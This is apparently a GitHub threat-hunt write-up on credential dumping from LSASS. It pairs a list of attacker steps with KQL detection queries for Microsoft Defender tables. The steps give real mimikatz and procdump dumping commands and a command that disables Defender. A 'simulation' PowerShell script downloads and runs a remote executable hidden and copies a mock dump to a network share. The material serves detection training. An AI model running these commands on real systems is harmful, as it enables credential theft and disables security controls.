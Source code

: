 # Threat Event: Credential Dumping via LSASS Access  
**Unauthorized Access to LSASS for Credential Dumping**

---

## Reason for Threat Hunt

### 🚨 Recent Cybersecurity Advisory from CISA  
CISA issued a bulletin warning of increased credential theft activity leveraging tools like **Mimikatz** and **ProcDump** that target **LSASS (Local Security Authority Subsystem Service)**.  
As a result, **management has directed a proactive threat hunt** to identify signs of credential dumping in the environment.

---

## Steps the "Bad Actor" Took – Logs and IoCs Created

1. **Downloaded credential dumping tool**
   - E.g., `mimikatz.exe`, `debug.exe`, `procdump.exe`
   - Often disguised with benign names

2. **Disabled Security Controls (optional)**
   - Example: `Set-MpPreference -DisableRealtimeMonitoring $true`

3. **Executed the Credential Dump**
   - `mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"`
   - Or: `procdump.exe -ma lsass.exe lsass.dmp`

4. **Extracted the Dump**
   - File: `lsass.dmp`
   - Transferred via SMB, FTP, or outbound connection

---

## Tables Used to Detect IoCs

| Table Name              | Description                                                                 |
|------------------------|-----------------------------------------------------------------------------|
| `DeviceProcessEvents`   | Detects execution of tools and interactions with LSASS                      |
| `DeviceFileEvents`      | Monitors creation of files like `lsass.dmp`                                 |
| `DeviceImageLoadEvents` | Tracks DLLs or suspicious modules loaded by credential dumping tools       |
| `DeviceNetworkEvents`   | Flags data exfiltration via public IPs from malicious processes             |
| `DeviceRegistryEvents`  | Detects changes to security/AV-related registry keys                        |

---

## Related Queries

```kusto
// LSASS memory dump attempt using ProcDump
DeviceProcessEvents
| where ProcessCommandLine has_all ("procdump", "lsass")
| project Timestamp, DeviceName, AccountName, FileName, ProcessCommandLine

// Execution of Mimikatz
DeviceProcessEvents
| where ProcessCommandLine has_any ("mimikatz", "sekurlsa", "logonpasswords")
| project Timestamp, DeviceName, AccountName, FileName, ProcessCommandLine

// Detection of lsass.dmp or similar file
DeviceFileEvents
| where FileName in~ ("lsass.dmp", "lsass.zip")
| project Timestamp, DeviceName, ActionType, FileName, FolderPath, InitiatingProcessCommandLine

// DLLs loaded by mimikatz or other malicious tools
DeviceImageLoadEvents
| where InitiatingProcessFileName has "mimikatz"
| project Timestamp, DeviceName, InitiatingProcessFileName, FileName, SHA256

// Public outbound network activity from suspicious tools
DeviceNetworkEvents
| where InitiatingProcessFileName has_any("mimikatz.exe", "procdump.exe")
| where RemoteIPType == "Public"
| project Timestamp, DeviceName, InitiatingProcessFileName, RemoteIP, RemotePort, Protocol
```

## 👤 Created By

* **Author**: Aduragbemi
* **LinkedIn**: [Aduragbemi Oladapo](https://www.linkedin.com/in/aduragbemioladapo/)
* **Date**: June 25, 2025

---

## ✅ Validated By

* **Reviewer**: *TBD*
* **Contact**: *TBD*
* **Date**: *TBD*

---
💻 Simulation Script (Safe)

```Powershell

# Simulate download of a known credential dumping tool
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri "https://raw.githubusercontent.com/aduragbemioo/Threat-Hunt-Scenario-Credential-Dumping-via-LSASS-Access/refs/heads/main/mimi-sim.exe" -OutFile "$env:USERPROFILE\Downloads\mimi-sim.exe"

# Simulate disabling Windows Defender (for detection/log creation only — doesn't actually succeed if Defender is enabled)
powershell.exe -ExecutionPolicy Bypass -Command "Set-MpPreference -DisableRealtimeMonitoring $true" | Out-Null

# Simulate credential dumping execution (e.g., mimikatz or procdump against lsass)
powershell.exe -ExecutionPolicy Bypass -Command Start-Process -FilePath "$env:USERPROFILE\Downloads\mimi-sim.exe" -ArgumentList '"sekurlsa::logonpasswords"' -WindowStyle Hidden

# Simulate creation of LSASS dump file
New-Item -Path "$env:USERPROFILE\Desktop\lsass.dmp" -ItemType File -Force | Out-Null
powershell.exe -ExecutionPolicy Bypass -Command Set-Content -Path "$env:TEMP\lsass.dmp" -Value "This is a simulated memory dump of LSASS."

# Simulate file exfiltration by copying to a network share or USB (fake path)
powershell.exe -ExecutionPolicy Bypass -Command Copy-Item "$env:USERPROFILE\Desktop\lsass.dmp" -Destination "\\192.168.1.99\shared\lsass.dmp" -Force


# Clean up simulated artifacts (optional)
Start-Sleep -Seconds 5
powershell.exe -ExecutionPolicy Bypass -Command Remove-Item "$env:TEMP\lsass.dmp" -Force
powershell.exe -ExecutionPolicy Bypass -Command Remove-Item "$env:USERPROFILE\Downloads\mimi-sim.exe" -Force


```

## 📅 Revision History

| Version | Changes       | Date          | Modified By                |
| ------- | ------------- | ------------- | -------------------------- |
| 1.0     | Initial Draft | June 25, 2025 | Aduragbemi Oladapo |

---
